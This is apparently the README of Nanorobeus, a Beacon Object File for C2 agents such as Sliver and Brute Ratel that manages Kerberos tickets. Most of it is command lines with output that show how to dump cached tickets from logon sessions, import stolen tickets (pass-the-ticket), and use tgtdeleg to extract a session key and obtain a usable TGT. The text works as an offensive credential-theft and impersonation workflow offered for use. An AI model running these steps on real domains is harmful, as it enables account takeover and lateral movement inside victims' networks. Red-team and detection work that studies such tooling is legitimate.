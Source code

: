 # Nanorobeus
COFF file (BOF) for managing Kerberos tickets.

## Supported agents
* [Sliver](https://github.com/BishopFox/sliver)
* [Brute Ratel](https://bruteratel.com)
* Any other agent supporting Cobalt Strike BOFs (not tested)

## Commands

**luid** - get current logon ID

**sessions** *[/luid <0x0>| /all]* - get logon sessions

**klist** *[/luid <0x0> | /all]* - list Kerberos tickets

**dump** *[/luid <0x0> | /all]* - dump Kerberos tickets

**ptt** *\<base64\> [/luid <0x0>]* - import Kerberos ticket into a logon session

**purge** *[/luid <0x0>]* - purge Kerberos tickets

**tgtdeleg** *\<spn\> [\<enc_type_hex\>]* - retrieve a usable TGT for the current user

## Examples
Get current logon ID.
```
=> nanorobeus64 luid

[+] Current LogonId: 0:0x19ea88e
```
Get detailed information about the current logon session.
```
=> nanorobeus64 sessions

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local
```
List Kerberos tickets for the current logon session. When elevated, use `/all` to list tickets from all of the sessions or `/luid 0x0` to list tickets in a specified logon session.
```
=> nanorobeus64 klist

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local

[*] Cached tickets: (6)

	[0]
	Client name     : User @ FORTRESS.LOCAL
	Server name     : krbtgt/FORTRESS.LOCAL @ FORTRESS.LOCAL
	Start time      : 2/7/2022 19:22:44 (UTC)
	End time        : 3/7/2022 5:22:43 (UTC)
	Renew time      : 9/7/2022 19:22:43 (UTC)
	Flags           : forwardable, forwarded, renewable, pre_authent, name_canonicalize (0x60a10000)
	Encryption type : AES256_CTS_HMAC_SHA1
    ...(snip)...
```
Dump tickets from the current logon session. When elevated, use `/all` to dump tickets from all of the sessions or `/luid 0x0` to dump tickets from a specified logon session.
```
=> nanorobeus64 dump

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local

[*] Cached tickets: (6)

	[0]
	Client name     : User @ FORTRESS.LOCAL
	Server name     : krbtgt/FORTRESS.LOCAL @ FORTRESS.LOCAL
	Start time      : 2/7/2022 19:22:44 (UTC)
	End time        : 3/7/2022 5:22:43 (UTC)
	Renew time      : 9/7/2022 19:22:43 (UTC)
	Flags           : forwardable, forwarded, renewable, pre_authent, name_canonicalize (0x60a10000)
	Encryption type : AES256_CTS_HMAC_SHA1
	Ticket          : doIFFjCCBRKgAwIBBaEDAgEWooIEGTCCBBVhggQRMIIEDaADAg...(snip)...
```
Import a ticket into the current logon session. When elevated, use `/luid 0x0` to import the ticket into a specified logon session.
```
=> make_token network fortress.local test pass
=> nanorobeus64 ptt doIFqjCCBaagAwIB...snip...

[+] Ticket successfully imported.
```
Purge all Kerberos tickets from the current logon session. When elevated, use `/luid 0x0` to purge the tickets from a specified logon session.
```
=> nanorobeus64 purge

[+] Successfully purged tickets.
```
Retrieve a usable TGT for the current user. First, retrieve AP-REQ blob.
```
=> nanorobeus64 tgtdeleg cifs/dc.fortress.local

[+] AP-REQ blob: YIIMNwYJKoZIhvcSAQICAQBuggwmMIIMIqADAgEFoQMCAQ6iBwMFA...(snip)...
```
Then determine an encryption type.
```
$ TgtDeleg.exe YIIMNwYJKoZIhvcSAQICAQBuggwmMIIMIqADAgEFoQMCAQ6iBwMFA...(snip)...
[*] Authenticator etype: 0x12 (aes256_cts_hmac_sha1)
```
Retrieve a session key.
```
=> nanorobeus64 tgtdeleg cifs/dc.fortress.local 0x12

[*] Encryption: AES256_CTS_HMAC_SHA1
[+] Session key: 1/0kOhaO+7bRVPUABp0q4IFazZDc2l3GOcWYTuL/bDk=
```
Finally, specify the session key and retrieve a usable TGT ticket.
```
$ TgtDeleg.exe YIIMNwYJKoZIhvcSAQICAQBuggwmMIIMIqADAgEFoQMCAQ6iBwMFA...(snip)... 1/0kOhaO+7bRVPUABp0q4IFazZDc2l3GOcWYTuL/bDk=
[*] Authenticator etype: 0x12 (aes256_cts_hmac_sha1)
[*] Ticket: doIFeDCCBXSgAwIBBaEDAgEWooIEcjCCBG5hggRqMIIEZq...(snip)...
```

## Credits
* Rubeus - https://github.com/GhostPack/Rubeus
* mimikatz - https://github.com/gentilkiwi/mimikatz